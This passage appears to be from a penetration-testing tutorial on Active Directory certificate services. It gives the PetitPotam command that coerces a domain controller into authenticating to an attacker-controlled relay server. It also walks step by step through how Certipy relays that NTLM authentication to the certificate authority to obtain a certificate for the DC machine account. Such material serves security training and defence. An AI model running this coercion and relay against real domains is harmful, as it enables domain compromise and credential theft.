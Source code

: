 To get the domain controller to authenticate and connect to our relay server, issue the following command using PetitPotam:
\begin{notebox}
\begin{verbatim}
    petitpotam.py -u 'dummy' -p 'dummy' - d <DOMAIN> <DC_IP> <YOUR_IP>
\end{verbatim}
\end{notebox}
\begin{itemize}
    \item \verb|<DC_IP>:| IP of the domain controller you are targeting.
    \item \verb|<YOUR_IP>:| IP of your relay server running Certipy.
\end{itemize}
PetitPotam exploits MS-EFSRPC to trigger an SMB authentication attempt from the DC to your attacking machine. When this happens, Certipy catches the NTLM authentication and relays it as a middle-man to the CA server. What exactly is happening here? Let us break down this process further:
\begin{enumerate}
    \item DC sends an SMB authentication attempt (NTLM) to our relay server.
    \item Certipy captures that NTLM handshake.
    \item Certipy then forwards it to the CA as the intermediary as if it came from the DC itself.
    \item The CA, trusting the DC, issues a certificate.
    \item Certipy receives the certificate for the DC machine account.
\end{enumerate}

